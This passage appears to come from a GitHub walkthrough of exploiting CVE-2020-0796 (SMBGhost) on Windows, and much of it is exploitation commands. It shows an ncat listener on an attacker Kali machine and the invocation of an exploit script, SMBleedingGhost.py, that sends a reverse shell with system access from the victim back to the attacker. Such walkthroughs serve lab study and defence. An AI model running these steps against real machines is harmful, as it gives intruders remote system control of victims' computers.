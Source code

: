 ![2](https://github.com/Cyberopss/Windows-CVE/blob/main/CVE-2020-0796/images/10.png)

### Exploitation

With everything prepared, run command 
```
ncat -lvp 4443 
```
on attacker Kali machines to listen to a port. Then open another command prompt and run the code with command 
```
python3 SMBleedingGhost.py <Victim ip> <attacker ip> <port>
```
on the attacker machine.
ncat will display a shell that provides system access to the target computer after the python code is executed.
Port 4443 from the attacker machine will receive a connection from target machine. Microsoft Windows
